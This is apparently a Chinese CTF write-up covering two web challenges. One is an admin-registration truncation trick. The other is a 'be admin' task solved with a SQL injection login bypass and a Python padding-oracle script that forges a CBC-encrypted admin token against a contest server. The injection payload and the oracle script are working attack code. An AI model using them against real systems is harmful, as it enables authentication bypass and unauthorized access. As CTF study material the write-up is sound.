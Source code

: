 忘记截图了…

Login

注册admin+n多空格+a字符的用户即可成功，其实就是注册时拼接到数据库时有长度限制，导致

[![](./img/85691/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t014fa84a2094ef813f.png)

**be admin**

首先发现是存在备份文件index.php.bak。打开之后发现题目很熟悉，根据这个找到应该是今年sessionctf2016那个biscuiti的改编。首先根据流程，首先是使用username= ' union select 'albert','1' %23&amp;password=伪造登录，登录之后就是实现padding oracle attack了，原理如下图

[![](./img/85691/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t015d052d622778af83.png)

[![](./img/85691/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01d8ececc37f029891.png)

所以就可以在login哪里触发padding oracle,然后CBC翻转伪造为admin

脚本如下



```
import requests
import base64
import time
url='http://218.2.197.235:23737/'
N=16
phpsession=""
ID=""
def inject1(password):
    param={'username':"' union select 'albert','{password}".format(password=password),'password':''}
    result=requests.post(url,data=param)
    return result
def inject_token(token):
    header={"Cookie":"PHPSESSID="+phpsession+";token="+token+";ID="+ID}
    result=requests.post(url,headers=header)
    return result
def xor(a, b):
    return "".join([chr(ord(a[i])^ord(b[i%len(b)])) for i in xrange(len(a))])
def pad(string,N):
    l=len(string)
    if l!=N:
        return string+chr(N-l)*(N-l)
def padding_oracle(N,cipher):
    get=""
    for i in xrange(1,N+1):
        for j in xrange(0,256):
            padding=xor(get,chr(i)*(i-1))
            c=chr(0)*(16-i)+chr(j)+padding+cipher
            print c.encode('hex')
            result=inject1(base64.b64encode(chr(0)*16+c))
            if "ctfer" not in result.content:
                get=chr(j^i)+get
                # time.sleep(0.1)
                break
    return get
session=inject1("aaaaa").headers['set-cookie'].split(',')
phpsession=session[0].split(";")[0][10:]
print phpsession
ID=session[1][4:].replace("%3D",'=').replace("%2F",'/').replace("%2B",'+').decode('base64')
token=session[2][6:].replace("%3D",'=').replace("%2F",'/').replace("%2B",'+').decode('base64')
middle=""
middle=padding_oracle(N,ID)
print "ID:"+ID.encode('base64')
print "token:"+token.encode('base64')
print "middle:"+middle.encode('base64')
```
